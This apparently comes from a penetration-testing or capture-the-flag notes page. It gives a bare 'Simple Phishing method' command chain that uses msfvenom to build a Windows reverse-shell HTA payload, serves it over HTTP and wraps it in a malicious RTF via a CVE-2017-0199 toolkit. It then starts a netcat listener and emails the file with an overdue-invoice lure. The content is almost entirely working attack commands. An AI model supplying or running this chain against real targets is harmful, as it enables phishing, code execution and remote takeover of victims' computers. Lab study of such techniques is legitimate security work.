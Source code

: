 ##### Simple Phishing method

Using Microsoft Office as example:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.64 LPORT=4444 -f hta-psh -o hello.hta
sudo python2 -m SimpleHTTPServer 80

sudo python2 cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.64/hello.hta -t rtf -x 0

sudo nc -vlnp 4444

sudo sendEmail -f root@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s $(cat ip) -v
```


